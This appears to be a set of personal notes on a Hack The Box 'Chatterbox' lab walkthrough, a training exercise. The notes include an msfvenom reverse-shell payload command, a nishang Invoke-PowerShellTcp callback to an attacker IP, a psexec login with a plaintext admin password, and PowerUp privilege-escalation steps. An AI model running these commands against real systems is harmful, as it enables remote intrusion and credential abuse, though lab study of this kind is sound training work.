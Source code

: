 ![](assets/ChatterBox_assets/Pasted%20image%2020230619171645.png)
`impacket-psexec 'CHATTERBOX/Administrator:Welcome1!@10.10.10.74'` or `impacket-psexec 'Administrator:Welcome1!@10.10.10.74'`
![](assets/ChatterBox_assets/Pasted%20image%2020230619172026.png)

WALKTHROUGH
- do the nmap vuln scan as well
- directory bruteforce
- check robots.txt
- we do -p windows/powershell_reverse_tcp LHOST=10.10..10.14.3 LPORT=9001
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10..10.14.3 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
- when we do the BufferRegister=EAX, this means thats is where the actual jump call should be, once the buffereoverflow is happening, EAX is pointing to the buffer there 
- in the script 1152 is the maximum size of payload we can have, if we use the payload above, we will get more than that size `1152 - len(buff)`
- so we can use the one we used in the script
- we can do like a ping command or so to see if the exploit works
- when using the iex command, the extension of the file does not matter to execute
- github nishang to get the repo, it also has the Invoke-PowershellTcp script
- he added the Invoke command with IP and port at the end of the script instead i.e. `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4443` at the end of the Invoke-PowershellTcp script
- `Get-Content user.txt` to view the flag
- the first thing he does is to run Sherlock or PowerUp when he has a shell, do `whoami /priv`
- we can just IEX the file (since it executes it) and then `Invoke-AllChecks`
- we will see there is a default password on Registry autologons
- so we will manually run the password on admin, to do that we will create a variable for the password, convert it to a secure string, then AsPlaintext and Force it to do so
- then you do another one for cred as in the writeup
- we can do $cred and we will see what we just set
- if we run `Get-ACL administrator | Fl *` to view the permissions of the Administrator directory and look at the AccessToString
```
PS C:\Users> Get-ACL administrator | Fl *


```